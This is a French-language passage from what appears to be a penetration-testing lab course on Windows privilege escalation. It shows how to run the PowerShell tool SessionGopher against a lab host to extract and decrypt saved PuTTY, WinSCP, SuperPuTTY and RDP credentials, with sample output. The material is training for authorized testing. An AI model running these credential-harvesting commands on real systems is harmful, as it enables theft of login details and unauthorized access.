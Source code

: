 * * * * *

Encore plus de plaisir avec les informations d'identification
------------------------------

Nous pouvons utiliser [SessionGopher](https://github.com/Arvanaghi/SessionGopher) pour extraire les identifiants PuTTY, WinSCP, FileZilla, SuperPuTTY et RDP enregistrés. L'outil est écrit en PowerShell et recherche et décrypte les informations de connexion enregistrées pour les outils d'accès à distance. Il peut être exécuté localement ou à distance. Il recherche dans la ruche `HKEY_USERS` tous les utilisateurs qui se sont connectés à un hôte joint à un domaine (ou autonome) et recherche et déchiffre toutes les informations de session enregistrées qu'il peut trouver. Il peut également être exécuté pour rechercher des lecteurs pour les fichiers de clé privée PuTTY (.ppk), Remote Desktop (.rdp) et RSA (.sdtid).

#### Exécution de SessionGopher en tant qu'utilisateur actuel

Nous avons besoin d'un accès administrateur local pour récupérer les informations de session stockées pour chaque utilisateur dans `HKEY_USERS`, mais cela vaut toujours la peine de s'exécuter en tant qu'utilisateur actuel pour voir si nous pouvons trouver des informations d'identification utiles.

Exécution de SessionGopher en tant qu'utilisateur actuel

```
PS C:\htb> Import-Module .\SessionGopher.ps1

PS C:\Tools> Invoke-SessionGopher-Target WINLPE-SRV01

           o_
          / ". SessionGopher
        ," _-"
      ," m m
   ..+ ) Brandon Arvanaghi
      `m..m Twitter: @arvanaghi | arvanaghi.com

[+] Creuser sur WINLPE-SRV01...
Sessions WinSCP

Source : WINLPE-SRV01\htb-student
Session : %20Paramètres par défaut
Nom d'hôte :
Nom d'utilisateur :
Mot de passe :

Sessions PuTTY

Source : WINLPE-SRV01\htb-student
Séance : nix03
Nom d'hôte : nix03.inlanefreight.local

Séances SuperPuTTY

Source : WINLPE-SRV01\htb-student
ID de session : NIX03
Nom de session : NIX03
Hébergeur : nix03.inlanefreight.local
Nom d'utilisateur : srvadmin
ExtraArgs :
Port : 22
Session Putty : Paramètres par défaut

```
